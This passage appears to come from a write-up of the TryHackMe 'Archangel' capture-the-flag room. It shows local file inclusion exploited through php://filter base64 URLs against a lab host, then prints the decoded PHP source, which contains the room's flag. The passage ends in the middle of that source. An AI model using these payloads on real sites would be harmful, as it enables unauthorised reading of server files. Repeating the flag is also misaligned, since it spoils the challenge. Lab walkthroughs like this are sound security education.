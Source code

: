 ![notallowed](/assets/archangel/notallowed.png)


Testing [PHP Wrappers](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601) for LFI, I find that it is possible to convert the page to base64

`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php`

![base64](/assets/archangel/base64.png)


Trying to read /etc/passwd still fails, so I try to read the test.php file instead to see what filtering is happening

`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`

![base64](/assets/archangel/base.png)


This gives a long base64 value. I save it to my machine then decrypt it


```
root@kali:~/ctfs/thm/archangle# cat base | base64 -d

<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

            //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
```